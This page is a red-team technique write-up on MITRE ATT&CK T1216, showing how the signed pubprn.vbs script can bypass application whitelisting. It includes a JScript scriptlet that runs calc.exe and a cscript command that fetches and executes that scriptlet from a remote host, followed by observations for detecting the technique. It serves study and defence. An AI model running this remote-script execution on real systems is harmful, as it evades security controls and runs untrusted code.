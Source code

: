 ```yaml
---
description: >-
  Signed Script Proxy Execution - bypass application whitelisting using
  pubprn.vbs
---
```


# T1216: Signed Script Code Execution

## Execution

Using pubprn.vbs, we will execute code to launch a calc.exe. First of, the xml that will executed by the script:

{% code-tabs %}
{% code-tabs-item title="http://192.168.2.71/tools/mitre/proxy-script/proxy.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Calc.exe gets spawned by cscript.exe which immediately closes leaving the calc.exe process orphan:

![](../.gitbook/assets/pubprn-csript.png)

![](../.gitbook/assets/pubprn-ancestry.png)

Monitoring commandlines can give be useful in detecting the script being abused:

![](../.gitbook/assets/pubprn-logs.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1216\",\"type\":\"link\",\"title\":\"Signed Script Proxy Execution - ATT&CK for Enterprise\"}" %}

